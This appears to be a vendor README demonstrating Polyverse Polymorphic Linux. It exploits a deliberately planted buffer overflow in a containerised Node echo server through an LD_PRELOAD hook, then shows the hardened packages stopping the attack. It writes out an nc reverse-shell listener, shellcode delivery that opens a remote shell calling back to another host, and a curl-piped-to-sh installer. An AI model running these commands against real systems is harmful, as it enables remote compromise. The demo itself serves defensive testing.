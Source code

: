 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run Server with Readhook
### (2) Start the container with an interactive shell (Session-2)
    docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/fullhook.so
### (2) Run the echo-server with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
### (3) Send shell-code to the OVERFLOW for a reverse shell
    curl localhost:8080/$shellCode
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
    LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
### (3) Try the shellCode with Polymorphic Linux
    curl localhost:8080/$shellCode
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
